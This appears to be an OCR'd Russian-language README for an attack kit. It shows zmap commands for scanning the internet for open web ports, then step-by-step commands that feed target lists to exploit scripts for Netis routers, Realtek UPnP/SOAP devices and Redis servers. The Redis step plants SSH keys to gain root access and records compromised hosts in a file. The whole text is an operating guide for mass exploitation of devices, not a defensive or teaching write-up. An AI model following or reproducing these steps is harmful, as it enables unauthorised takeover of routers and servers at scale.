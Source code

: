 ### 📊 Фильтрация и анализ результатов:

```bash
# Только успешные подключения
sudo zmap -p 80 --output-filter="success = 1" -o active_only.csv

# Подробная информация для анализа
sudo zmap -p 443 -f "saddr,daddr,sport,dport,classification,success" -o detailed.csv

# JSON формат для автоанализа
sudo zmap -p 8080 --output-module=json -o devices.json
```

## 🎯 Запуск Эксплойтов

### 1. 🔌 Netis Роутеры
```bash
# Подготовка списка целей
echo "192.168.1.1" > netis/targets.lst
echo "10.0.0.1" >> netis/targets.lst

# Запуск
python2 netis/netis.py netis/targets.lst

# Альтернативно через bash (если есть скрипт-обертка)
chmod +x netis/netis.sh
bash netis/netis.sh netis/targets.lst
```

### 2. 📡 Realtek Устройства (UPnP/SOAP)
```bash
# Подготовка
echo "192.168.0.1" > realtek/targets.lst

# Запуск
python2 realtek/Realtek.py realtek/targets.lst

# Через скрипт-обертку
chmod +x realtek/realtek.sh
bash realtek/realtek.sh
```

### 3. 🗄️ Redis Серверы (SSH Injection)
```bash
# ВАЖНО: Убедитесь что SSH ключи созданы!
ls -la /root/.ssh/id_rsa*

# Подготовка списка
echo "172.16.1.100" > redis/targets.lst

# Запуск (два параметра: входной список и выходной файл*)
python2 redis/loader.py redis/targets.lst good_redis.txt

# *ВНИМАНИЕ: Скрипт сохраняет результат в файл good.txt (игнорирует 2-й параметр)
```
